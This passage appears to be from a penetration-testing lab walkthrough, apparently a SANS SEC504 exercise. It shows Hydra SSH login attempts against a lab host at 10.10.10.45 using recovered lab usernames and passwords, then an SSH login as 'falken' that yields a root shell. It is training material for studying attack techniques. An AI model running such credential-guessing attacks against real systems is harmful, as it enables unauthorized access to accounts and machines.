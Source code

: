 > Alternatively, just try to login using `ssh falken@10.10.10.45`.

This works, but we should enumerate the other accounts that work as well for privilege escalation opportunities against the target system:

<pre>
sec504@slingshot:~$ hydra -l peaches -p peaches1 ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:25
sec504@slingshot:~$ hydra -l mike -p poor ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:41
sec504@slingshot:~$ hydra -l paul -p dirt33 ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:55
</pre>

None of these other recovered accounts work. That's OK, it's all part of the process. Login interatively using the falken/joshua password combination:

<pre>
sec504@slingshot:~$ ssh falken@10.10.10.45
The authenticity of host '10.10.10.45 (10.10.10.45)' can't be established.
RSA key fingerprint is SHA256:BA6O7Jv5No90sjnbh2LhtsxxkH9fm7StzfyJu7zHBts.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.45' (RSA) to the list of known hosts.
falken@10.10.10.45's password: 
Last login: Tue Oct  1 11:56:13 2019 from 10.10.76.1
[root@fred ~]# uname -a
Linux fred 2.6.26.8-57.fc8 #1 SMP Thu Dec 18 19:19:45 EST 2008 i686 i686 i386 GNU/Linux
[root@fred ~]# id
uid=0(root) gid=503(falken) groups=503(falken)
[root@fred ~]# cat /etc/issue
Fedora release 8 (Werewolf)
Kernel \r on an \m
